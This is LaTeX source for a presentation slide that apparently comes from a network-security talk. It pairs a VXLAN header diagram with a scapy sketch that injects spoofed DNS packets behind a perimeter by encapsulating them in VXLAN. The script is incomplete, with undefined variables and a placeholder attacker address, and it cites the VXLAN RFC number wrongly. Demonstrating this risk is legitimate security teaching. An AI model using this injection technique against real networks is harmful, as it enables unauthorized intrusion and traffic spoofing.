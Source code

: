 \documentclass[12pt]{foils}
\begin{document}
\begin{figure}[!htb]
\centering
\begin{minipage}[t]{0.45\textwidth}
\vskip 12mm
\begin{alltt}\scriptsize
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|R|R|R|R|I|R|R|R|            Reserved                           |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                VXLAN Network Identifier (VNI) |   Reserved    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
Inner Ethernet Header:
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|             Inner Destination MAC Address                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Inner Destination MAC Address | Inner Source MAC Address      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                Inner Source MAC Address                       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|OptnlEthtype = C-Tag 802.1Q    | Inner.VLAN Tag Information    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
\end{alltt}
\caption{VXLAN Header }
\end{minipage}%
\begin{minipage}[t]{0.45\textwidth}
\vskip 5mm
\begin{verbatim}
#!/usr/bin/python
from scapy.all import *
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
    UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,
    flags="Instance")
broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.129.62.666"
destination="your network"
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
          dst=destination)/UDP(sport=testport,dport=insideport)/
          DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.zencurity.com"))

srp(packet)
\end{verbatim}
\vskip -4mm\caption{ Spoofed DNS packets inside the perimeter}
\end{minipage}
\end{figure}

\vskip 13mm
\centerline{\Large $\heartsuit$ love internet packets $\heartsuit$}
\end{document}
